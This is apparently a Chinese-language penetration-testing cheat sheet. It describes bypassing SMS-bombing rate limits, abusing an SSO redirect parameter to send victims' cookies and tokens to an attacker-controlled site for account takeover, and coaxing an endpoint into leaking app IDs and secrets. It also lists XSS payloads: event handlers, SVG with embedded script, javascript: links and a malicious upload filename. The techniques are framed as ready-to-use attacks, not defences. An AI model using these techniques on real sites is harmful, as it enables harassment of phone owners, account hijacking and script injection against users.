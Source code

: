 ## 短信轰炸发送限制绕过：
1. 删除cookie
2. 在手机号后持续加逗号，intruder时，每个包都多加一个，

## sso统一登陆测试点
sso统一登陆，累似下面：
`https://www.xxxx.com/sso.php?redirect=https://2.xxxx.com/xxxx.php`
1. 尝试修改后面的url进行伪造
`https://www.xxxx.com/sso.php?redirect=https://自己的站/xxxx.php`
> ⚠️任何重定向都有可能存在漏洞
并且我们在自己的站里实时接收任何post或者get数据（cookie,token）等等,用户通过这个链接只要登陆了，你就能获取到对应token，实现登陆它的账号。
2. 直接访问后面的URL
`https://2.xxxx.com/xxxx.php`
根据提示的错误，缺少数据等，在post或者get请求参数中添加这个参数，值随便写进行测试。
返回包会显示appid=xxxx，secert=xxxx等一些敏感信息，使用对应的api文档进行访问，就可以获取权限了

## XSS姿势
1. 尖括号被转义绕过
尝试利用事件执行xss，这里我主要采用与用户接口(鼠标、键盘)相关的事件，如click、mouseover等：
```html
<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>
```
2. svg插入xss
```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" onmouseover="alert(/xss/)" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
</svg>

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
	<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;strcke:rgb(0,0,0)">
		<script>alert(/xss/)</script>
</svg>
```
3. 所有配置超链接的地方
使用www.baidu.com 测试是否可以重定向，然后url配置为`javascript:alert('xss');`
4. 文件上传
上传文件的名称改为 `<img src=1 onerror=alert(document.domain)>` 上传后后去访问文件
